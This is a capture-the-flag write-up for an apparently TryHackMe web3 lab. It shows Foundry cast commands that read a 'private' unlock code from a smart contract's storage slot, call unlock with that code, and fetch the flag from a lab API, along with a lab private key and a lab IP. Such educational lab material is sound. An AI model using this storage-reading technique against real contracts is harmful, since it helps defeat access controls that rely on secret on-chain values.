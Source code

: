 # 🚀 **Challenge Writeup: Unlocking the Contract** 🔓  

### ✅ **Step 1: Setting Up Environment Variables**  
First, we set up the necessary environment variables to interact with the blockchain:  

```
export RPC_URL=http://10.10.109.18:8545  
export API_URL=http://10.10.109.18  
export PRIVATE_KEY=0xd82c93cb341c01fbc08feffb5c30a5b1a3f521c9811977a7f28353dab39824b0  
export CONTRACT_ADDRESS=0xf22cB0Ca047e88AC996c17683Cee290518093574
```    

🔧 This configuration allows us to interact with the remote blockchain contract.

---

### 🔍 **Step 2: Reading the Code Variable**  
Next, we read the value of the **private code variable** from **storage slot 2** using the `cast storage` command:  

```bash
cast storage $CONTRACT_ADDRESS 2 --rpc-url $RPC_URL  
```

🎯 **Output:**  
The command returned the following value:  
```bash
0x000000000000000000000000000000000000000000000000000000000000014d  
```

This corresponds to **333** in decimal.

---

### 🔓 **Step 3: Unlocking the Contract**  
We then called the `unlock` function with the correct code value (333) using `cast send`:  

```bash
cast send $CONTRACT_ADDRESS "unlock(uint256)" 333 --private-key $PRIVATE_KEY --rpc-url $RPC_URL --legacy  
```

⚠️ The `--legacy` flag was used to bypass the **EIP-1559 unsupported feature error**.

---

### 🔁 **Step 4: Verifying if the Contract is Solved**  
We checked if the `isSolved()` function returned `true`:  

```bash
cast call $CONTRACT_ADDRESS "isSolved()(bool)" --rpc-url $RPC_URL  
```

---

### 🏁 **Step 5: Retrieving the Flag**  
Finally, we retrieved the flag using the API endpoint:  

```bash
curl $API_URL/challenge/solve  
```  

🎉 **The flag was returned as:**  
```json
{"flag":"THM{web3_h4ck1ng_code}"}  
```
